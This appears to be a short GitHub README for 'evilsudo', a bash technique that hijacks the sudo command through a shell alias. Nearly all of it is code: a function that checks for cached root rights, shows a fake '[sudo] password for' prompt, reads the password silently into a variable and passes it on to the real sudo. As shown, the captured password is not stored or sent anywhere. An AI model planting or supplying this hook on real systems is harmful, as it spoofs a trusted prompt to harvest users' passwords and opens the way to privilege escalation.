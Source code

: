 # evilsudo
`evilsudo` is a privilege escalation technique based on alias'ing ("hooking") the sudo command

# code

```bash
alias sudo=evilsudo
function evilsudo() {
	if [ "$#" -gt "0" ]; then
		rights=$(echo "a" | $(which sudo) -S whoami 2>/dev/null)
		if [ "$rights" == "root" ]; then
			$(which sudo) $@
		else
			original_params=$@
			echo -en "[sudo] password for $(whoami): "
			read -s password
			echo -en "\r"
			cmd=$(echo $password | $(which sudo) -S $original_params)
			echo -e ""
			echo "$cmd"
		fi
	else
		$(which sudo)
	fi
}
````
